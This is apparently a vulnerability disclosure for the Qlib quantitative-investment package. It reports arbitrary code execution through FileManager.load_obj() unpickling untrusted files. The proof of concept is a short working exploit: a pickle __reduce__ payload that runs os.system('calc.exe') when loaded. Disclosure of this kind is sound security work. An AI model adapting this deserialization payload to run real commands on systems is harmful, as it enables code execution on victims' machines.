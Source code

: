 ## :writing_hand: Description

`Qlib` is an AI-oriented quantitative investment platform, which aims to realize the potential, empower the research, and create the value of AI technologies in quantitative investment. This package is vulnerable to `Arbitrary Code Execution`.

## :bug: Vulnerability

`load_obj()` is a method used by `FileManager` class for loading files to manage objects. It should only unpickle objects saved with `save_obj()` method.

## :male_detective: Proof of Concept

#### Installation
```bash
pip install pyqlib
```

#### Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
from qlib.utils.objm import FileManager

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())

with open('payload', 'wb') as f:
    f.write(payload)

fmanager = FileManager('')
fmanager.load_obj('payload')
```
